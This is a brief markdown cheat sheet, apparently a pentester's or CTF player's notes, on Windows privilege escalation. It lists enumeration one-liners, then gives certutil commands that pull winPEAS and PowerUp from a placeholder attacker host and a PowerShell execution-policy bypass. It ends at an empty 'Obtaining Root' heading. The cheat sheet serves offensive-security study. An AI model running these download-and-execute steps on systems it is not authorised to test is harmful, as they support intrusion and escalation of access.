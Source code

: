 # Common PrivEsc Methods

Here are some things I do for windows privesc.

## Identifying Privesc Vector

First, (after some basic one-liners) I like installing a `PowerUP` *AND* `winPEAS`. Using these tools will help us find the attack vector `80%` of the time.

### One-Liners

These one-liners will catch a good amount of privesc vectors:

- `whoami /priv` == See your users privs.
- `Get-LocalUser` == See all local users.
- `Get-LocalGroup` == See all local groups.
- `Get-LocalGroupMember <juicygroup>` == See members that are apart of a certain group.

### winPEAS

winPEAS is great to find some loot and privesc. Make sure to read fine print.

```cmd
certutil -urlcache -split -f http://<attacker-ip>/winPEAS.exe winPEAS.exe
```

### PowerUP

PowerUp has some awesome utility. Check their official documentation for more info. To run all checks do the following:

```cmd
$ certutil -urlcache -split -f http://<attacker-ip>/PowerUp.ps1 PowerUp.ps1
$ powershell -ep bypass
$ .\PowerUp.ps1; Invoke-AllChecks
```

## Obtaining Root
